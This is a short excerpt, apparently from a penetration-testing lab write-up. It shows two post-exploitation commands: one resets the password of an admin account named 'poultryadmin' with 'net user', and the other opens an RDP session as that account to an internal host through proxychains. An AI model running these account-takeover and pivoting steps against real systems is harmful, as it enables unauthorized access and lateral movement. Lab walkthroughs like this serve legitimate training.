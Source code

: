 **Update admin password**
```
net user poultryadmin OffSecHax1!
```

**Connect to RDP using poultryadmin**
```
proxychains xfreerdp /u:poultryadmin /v:10.5.5.20 +clipboard /tls-seclevel:0 /timeout:80000
```